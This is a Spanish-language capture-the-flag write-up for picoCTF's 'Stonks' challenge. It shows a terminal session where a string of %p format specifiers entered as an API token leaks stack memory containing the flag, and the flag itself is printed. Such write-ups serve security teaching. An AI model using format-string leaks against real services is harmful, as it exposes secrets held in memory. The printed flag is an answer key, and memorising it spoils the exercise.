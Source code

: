 # Stonks

## Descripción

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/7e71fc0d8cc3339bfad6bf408f7dc510/vuln.c) `nc mercury.picoctf.net 6989`

## Pistas

Okay, maybe I'd believe you if you find my API key.

## Solución

```
┌──(kali㉿kali)-[~/picoctf/binaryexplotation/stonks]
└─$ nc mercury.picoctf.net 53437
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x80f53300x804b0000x80489c30xf7eebd800xffffffff0x10x80f31600xf7ef91100xf7eebdc7(nil)0x80f41800x60x80f53100x80f53300x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xfff4007d0xf7f26af80xf7ef94400x80b3c1000x1(nil)0xf7d88ce90xf7efa0c00xf7eeb5c00xf7eeb0000xfff40a580xf7d7968d0xf7eeb5c00x8048eca0xfff40a64(nil)0xf7f0df090x804b0000xf7eeb0000xf7eebe200xfff40a980xf7f13d500xf7eec8900x80b3c1000xf7eeb0000x804b0000xfff40a980x8048c860x80f31600xfff40a840xfff40a980x8048be90xf7eeb3fc(nil)0xfff40b4c0xfff40b440x10x10x80f31600x80b3c1000xfff40ab0(nil)(nil)0xf7d2efa10xf7eeb0000xf7eeb000(nil)0xf7d2efa10x10xfff40b440xfff40b4c0xfff40ad40x1(nil)0xf7eeb0000xf7f0e70a0xf7f26000(nil)0xf7eeb000(nil)(nil)0xc9f855890x8433f399(nil)(nil)(nil)0x10x8048630(nil)0xf7f13d500xf7f0e9600x804b0000x10x8048630(nil)0x80486620x8048b850x10xfff40b440x8048cd00x8048d300xf7f0e9600xfff40b3c0xf7f269400x10xfff40e78(nil)0xfff40eb10xfff40ebe0xfff40ec70xfff40ef60xfff40f2e0xfff40f490xfff40f6b0xfff40f73(nil)0x200xf7efeb500x210xf7efe0000x100x1f8bfbff0x60x10000x110x640x30x80480340x40x200x50x90x70xf7eff0000x8(nil)0x90x80486300xb0x4110xc0x4110xd0x4120xe0x4120x17
Portfolio as of Sat May 13 04:19:53 UTC 2023


6 shares of RPNI
1502 shares of RDBT
Goodbye!

0x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xfff4007d

picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}
```

## Bandera

picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}

## Notas adicionales



## Referencias
- https://mercury.picoctf.net/static/7e71fc0d8cc3339bfad6bf408f7dc510/vuln.c